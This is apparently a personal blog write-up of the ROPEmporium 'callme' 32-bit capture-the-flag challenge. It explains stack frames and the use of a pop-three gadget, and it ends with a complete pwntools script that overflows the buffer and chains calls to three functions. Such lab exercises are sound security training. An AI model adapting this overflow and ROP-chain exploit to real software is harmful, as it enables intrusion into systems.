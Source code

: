 ```yaml
---
title: "ROPEmporium: callme 32-bit"
date: 2021-05-24T14:57:00+02:00
---
```


# Writeup of callme [callme] on ROPEmporium

How do you make consecutive calls to a function from your ROP chain that won't crash afterwards? 
If you keep using the call instructions already present in the binary your chains will eventually fail, especially when exploiting 32 bit binaries. Consider why this might be the case.

This is the information we're greeted with in the callme challenge. 

What we need to do is call the functions "callmeone", "callmetwo", "callmethree" all with the same arguments: 0xdeadbeef, 0xcafebabe, 0xd00df00d.

Let's look at the binary with radare2:

```c 
>  0x08048570   50 entry0                                   
   0x080486ed   98 sym.pwnme
   0x080484c0    6 sym.imp.read
   0x0804874f   67 sym.usefulFunction
   0x080484e0    6 sym.imp.callme_three <- Call_three
   0x08048550    6 sym.imp.callme_two <- Call_two
   0x080484f0    6 sym.imp.callme_one <- Call_one
   0x08048686  103 main
 ``` 

Okay! So this should be easy. Let's look at the stack we want.

```
┌────────────┐
│            │
│ 0xd00df00d │
│            │
├────────────┤
│            │
│ 0xcafebabe │
│            │
├────────────┤
│            │
│ 0xdeadbeef │
│            │
├────────────┤
│            │
│ callme_one │
│            │
└────────────┘
```


Now how do we continue with the next callme_two? Just the same principle? Is this even right?
I tried a payload that went something like this:

```python
payload=padding
payload+=callme_one+dead+cafe+dood
payload+=callme_two+dead+cafe+dood
payload+=callme_three+dead+cafe+dood
```

It's important to note, that when a function call is made a new **stack frame** is created. This is to avoid corrupting data outisde a function, and also to save memory. Let's look at a simple python program that explains this quite well:

```python

def test():
    a = 10

def main():
    print(a)

test()
main()
```

This would yield a "NameError: name 'a' is not defined". To return from a function, it's important that the function has a return address. The return address is the first thing that will be pushed onto the stack after a function call.

We simply need some sort of way to return back after our function. It's also important to note, that we push data on to the stack, that shouldn't be there in the first place, this can cause issues when returning, as the program might interpret these in a different way then. We simply make our chain like this:

```
payload = callme_one+pop3+argv1+argv2+argv3
payload += callme_two+pop3+argv1+argv2+argv3
payload += callme_three+argv1+argv2+argv3
```

This firstly puts the pop3 as the return address after the function has been called. So it calls callme_one with the three arguments, then returns to pop3 which places these into registers, and removes them from the stack. Then it calls the next function, with the three arguments and afterwards places these into registers, effectively removing them from the stack. Lastly it calls callme_three and... flag

Exploit:

```python
from pwn import *

usefulFunction = b"\x4f\x87\x04\x08"
callmeone = p32(0x08048780) #b"\x80\x87\x04\x08"
callme_one_plt = p32(0x080484f0)
callme_two_plt = p32(0x08048550)
callmethree = p32(0x0804875e)

dbef = p32(0xdeadbeef)
cfbb = p32(0xcafebabe)
dfd = p32(0xd00df00d)

completeargv=dbef+cfbb+dfd

gdgtpopm = p32(0x080487f9) #pops three registers

elfPath="./callme32"
context.arch="i386"

gdbscript="""
break *0x080484f0
"""

terminalSetting = ['gnome-terminal', '-e']
context.clear(terminal=terminalSetting)


io = pwnlib.gdb.debug(elfPath, gdbscript = gdbscript)

#mnm = cyclic_gen()
#mnm = mnm.get(80)
point=cyclic_find(b"laaa", endian="little")
#6161616c is at the return or laaa


#https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames

def main():
    print(io.recvuntil("> "))
    payload=b"A"*point
    payload+=callme_one_plt+gdgtpopm+completeargv
    payload+=callme_two_plt+gdgtpopm+completeargv  
    payload+=callmethree+completeargv  

    io.send(payload)
    io.interactive()

main()
```

